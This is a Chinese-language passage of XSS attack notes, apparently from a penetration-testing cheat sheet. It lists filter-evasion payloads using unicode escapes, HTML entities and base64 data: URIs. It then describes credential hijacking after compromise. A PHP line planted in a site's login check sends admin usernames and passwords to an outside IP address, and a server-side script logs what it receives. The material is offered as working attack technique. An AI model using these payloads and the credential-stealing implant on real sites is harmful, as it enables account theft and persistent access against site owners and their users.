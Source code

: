 ```
<script>\u0061\u006c\u0065\u0072\u0074('xss');</script>
```

#### HTML 编码

在=后可以解析 html 编码

**十进制**

```
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;" />
<button onclick="confirm('7&#39;);">Button</button>
```

**十六进制**

```
<img src="x" onerror="&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
```

**base64 编码**

使用伪协议 base64 解码执行 xss

```
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">111</a>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>
```

### 表单劫持

后台植入Cookie&表单劫持

条件：**已取得相关web权限后**

1、写入代码到登录成功文件，利用 beef 或 xss 平台实时监控 Cookie 等凭据实现权限维持

2、若存在同源策略或防护情况下，Cookie获取失败可采用**表单劫持或数据明文传输实现**

```
1、插入获取帐号密码文件中-login_check.php
$up='<script src=http://47.94.236.117/get.php?user='.$metinfo_admin_name."&pass=".$metinfo_admin_pass.'></script>';
echo $up;


2、服务器上创建接受代码文件并写入保存
<?php
$u=$_GET['user'];
$p=$_GET['pass'];
$myfile = fopen("newfile.txt", "a+");
fwrite($myfile, $u);
fwrite($myfile, '|');
fwrite($myfile, $p);
fwrite($myfile, '\n');
fclose($myfile);
?>
```
